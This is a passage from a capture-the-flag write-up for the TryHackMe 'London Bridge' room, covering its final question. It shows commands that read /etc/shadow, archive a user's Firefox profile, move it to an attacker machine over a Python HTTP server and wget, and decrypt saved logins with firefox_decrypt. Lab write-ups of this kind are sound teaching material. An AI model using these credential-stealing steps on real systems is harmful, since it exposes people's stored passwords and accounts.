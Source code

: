 
### Last question of room: What is the password of charles?

At first , i read /etc/shadow file to look at charles password hash and tried to crack it via john the ripper, but after one eternity later , i found out that that’s not the intended method, we have to do something else to get charles password.

In the home directory of charles, we found a folder named .mozilla, maybe there is a Firefox profile with a few passwords hidden in it. We can find out how to extract these in the following writeup. Essentially, we only need the files `key4.db` and `logins.json`. But for the showcased script to work, we seem to need the whole profile.

[Steal Firefox Passwords from Windows & Linux](https://medium.com/@s12deff/steal-firefox-passwords-from-windows-linux-9d9a87906c7d)

First, we archive the directory and transfer it to our machine.

```bash
bash-4.4# tar -cvzf /tmp/firefox.tar.gz firefox
....
bash-4.4# cd /tmp
bash-4.4# python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...

┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ wget http://10.10.247.100:9001/firefox.tar.gz  
--2025-07-02 10:54:02--  http://10.10.247.100:9001/firefox.tar.gz
Connecting to 10.10.247.100:9001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15135211 (14M) [application/gzip]
Saving to: ‘firefox.tar.gz’

firefox.tar.gz                    100%[============================================================>]  14.43M  1.47MB/s    in 20s     

2025-07-02 10:54:23 (728 KB/s) - ‘firefox.tar.gz’ saved [15135211/15135211]
```

Extracting the archive and fixing the permission issues.

```bash
┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ tar -xvzf firefox.tar.gz

┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ sudo chmod -R 777 firefox
```

Now, using the [`firefox_decrypt`](https://github.com/unode/firefox_decrypt) program to extract the credentials, we obtain the password for the charles user and complete the room.

```bash
┌──(kali㉿kali)-[~/tryhackme/london-bridge]
└─$ python3 firefox_decrypt.py firefox/8k3bf3zp.charles                                                                  
2025-07-02 10:55:07,914 - WARNING - profile.ini not found in firefox/8k3bf3zp.charles
2025-07-02 10:55:07,914 - WARNING - Continuing and assuming 'firefox/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: 'REDACTED'
```

That’s it , we solved the machine!✅
